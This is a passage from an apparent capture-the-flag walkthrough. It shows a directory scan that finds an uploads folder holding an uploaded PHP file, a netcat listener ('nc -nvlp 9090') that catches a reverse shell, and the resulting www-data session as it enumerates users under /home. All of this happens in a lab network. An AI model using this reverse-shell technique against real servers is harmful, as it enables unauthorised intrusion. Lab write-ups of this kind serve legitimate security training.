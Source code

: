 ```
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Sep 20 16:56:03 2020
DOWNLOADED: 4612 - FOUND: 1
```

Here, we can see a sub-directory named `images` has been detected. We can go and check it out. 

![images](./.images/images_upload.gif)

Over there, we can see another sub-directory named `uploads` which contains our uploaded file `re.php`. Now, all that we need to do is start a listener using `netcat` on our machine using the command `nc -nvlp 9090` and open the file `re.php`.

```
tester@kali:~/Downloads/tartarus$ nc -nvlp 9090
listening on [any] 9090 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.39.48] 52454
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:31:34 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1315): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-xenial:/$ whoami

www-data
www-data@ubuntu-xenial:/$ pwd
/
```

We can go to `/home` directory and see the different users on the machine. 

```
www-data@ubuntu-xenial:/$ cd /home
www-data@ubuntu-xenial:/home$ ls -la
a
total 20
drwxr-xr-x  5 root      root      4096 Jul  5 21:45 .
drwxr-xr-x 24 root      root      4096 Sep 20 10:28 ..
drwxr-xr-x  2 root      root      4096 Jul  5 21:35 cleanup
drwxr-xr-x  2 d4rckh    d4rckh    4096 Jul  5 21:35 d4rckh
drwxr-xr-x  2 thirtytwo thirtytwo 4096 Jul  5 21:38 thirtytwo
```
